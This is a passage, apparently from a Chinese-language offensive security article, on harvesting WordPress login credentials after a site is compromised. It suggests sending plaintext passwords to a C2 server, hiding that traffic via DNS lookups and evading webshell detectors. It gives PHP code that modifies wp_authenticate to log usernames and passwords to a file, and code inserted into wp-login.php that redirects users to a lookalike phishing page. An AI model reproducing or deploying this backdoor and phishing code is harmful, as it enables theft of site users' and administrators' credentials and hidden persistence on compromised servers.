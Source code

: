在 c2 建立监听 当 wordpress 用户登录时 就会向 c2 发送明文账号密码[![](assets/1706513536-93b483fe3c8549430ce28b486f6ec726.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705049648036-6bc3a997-6283-44ec-97a1-acd7ef719939.png#averageHue=%2344484d&clientId=u73ac5ba2-244f-4&from=paste&height=208&id=ucb42f755&originHeight=416&originWidth=1424&originalType=binary&ratio=2&rotation=0&showTitle=false&size=116522&status=done&style=none&taskId=u9c4e8158-08ec-418c-8484-61a3cd40b1b&title=&width=712)  
对于明文密码的传递可以通过 dns\_get\_record 等函数进行流量的特征脱敏  
对于后门部分可以通过规避 webshell 检测工具的思路编写

但是这样的实现方式总归都很容易察觉 并且 system 之类的函数在应用部署后基本就是默认禁用

所以还是使用写入本地文件 隔一段时间再上线查看比较可靠

```bash
function wp_authenticate($username, $password) {

    $username = sanitize_user($username);
    $password = trim($password);
  file_put_contents('accesss.log',$username.$password);
   ...
```

[![](assets/1706513536-924a6c71e35fad3d3753496b9b84402b.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705057214590-b48ec082-f011-4309-949f-8917db67a1f8.png#averageHue=%230d1414&clientId=u73ac5ba2-244f-4&from=paste&height=124&id=uf7cb4e9b&originHeight=248&originWidth=1002&originalType=binary&ratio=2&rotation=0&showTitle=false&size=103557&status=done&style=none&taskId=uba5567ac-9c7d-49ee-b15e-7aadeebf323&title=&width=501)

### 钓鱼劫持

针对安全意识不强的操作人员 可以通过钓鱼劫持的方式将访问/wp-login.php 的请求重定向到钓鱼页面，在钓鱼网站输入密码后再重定向到原本的登录界面  
针对不出网的环境 可以部署相似文件名的本地文件做鱼饵 如 wp-logln.php  
1.在 wp\_login.php 中插入重定向到 wp\_logln.php 的语句 通过 session 字段避免重定向死循环

```bash
session_start();
$host = $_SERVER['HTTP_HOST'];
if(!isset($_SESSION['redirected'])){
    $_SESSION['redirected'] = true;
    header('Location: http://' . $host . '/wp-logln.php');
}
```
